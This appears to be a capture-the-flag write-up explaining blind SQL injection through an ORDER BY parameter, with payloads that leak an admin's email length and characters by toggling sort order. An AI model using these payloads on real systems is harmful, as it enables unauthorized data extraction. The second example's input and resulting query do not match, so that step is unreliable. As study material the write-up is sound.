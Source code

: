 ## Blind SQL Injection - (Sorting by ADC or DESC)

### Retrieving the email length

If we provide the following URI parameter:

```
?order=if(id='admin' AND length(email)=[length], '1 ASC', '1 DESC')
```

The resultant query becomes:

```sql
SELECT id,email,score FROM prob_hell_fire WHERE 1 ORDER BY if(id='admin' AND length(email)=[length], '1 ASC', '1 DESC')
```

If the length of `email` for `id='admin'` is equal to the `[length]` that we provide, the rows will be sorted in ascending order. Otherwise, the rows will be sorted in descending order.

So, if the `admin` user appears first, we know that the `[length]` was correct.

### Leaking the email

If we provide the following URI parameter:

```
?order=if(id='admin' AND substr(email, 1, 1)='0', '1 ASC', '1 DESC')
```

The resultant query becomes:

```sql
SELECT id,email,score FROM prob_hell_fire WHERE 1 ORDER BY if(id='admin' AND ord(substr(email, [index], 1))='ord([character])', '1 ASC', '1 DESC')
```

If the `id='admin'` and character of the `email` at `[index]` is the same as the `[character]` that we provide, the rows will be sorted in ascending order. Otherwise, the rows will be sorted in descending order.

So, if the `admin` user appears first, we know that the `[character]` at `[index]` was correct.
